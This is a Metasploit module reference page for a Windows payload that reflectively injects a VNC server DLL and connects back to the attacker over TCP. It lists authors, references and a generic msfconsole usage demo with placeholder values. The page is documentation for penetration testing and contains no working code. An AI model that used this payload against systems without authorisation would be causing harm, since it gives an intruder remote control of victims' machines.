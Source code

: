 ## VNC Server (Reflective Injection), Reverse Ordinal TCP Stager (No NX or Win7)

Inject a VNC Dll via a reflective loader (staged). Connect 
back to the attacker


## Module Name
payload/windows/vncinject/reverse_ord_tcp

## Authors
* sf
* spoonm


## References
* https://github.com/stephenfewer/ReflectiveDLLInjection
* https://github.com/rapid7/ReflectiveDLLInjection




## Platforms
* win

## Reliability
[Normal](https://github.com/rapid7/metasploit-framework/wiki/Exploit-Ranking)

## Demo

```
msf > use payload/windows/vncinject/reverse_ord_tcp
msf payload(reverse_ord_tcp) > show targets
   ... a list of targets ...
msf payload(reverse_ord_tcp) > set TARGET <target-id>
msf payload(reverse_ord_tcp) > show options
   ... show and set options ...
msf payload(reverse_ord_tcp) > run
```
    
    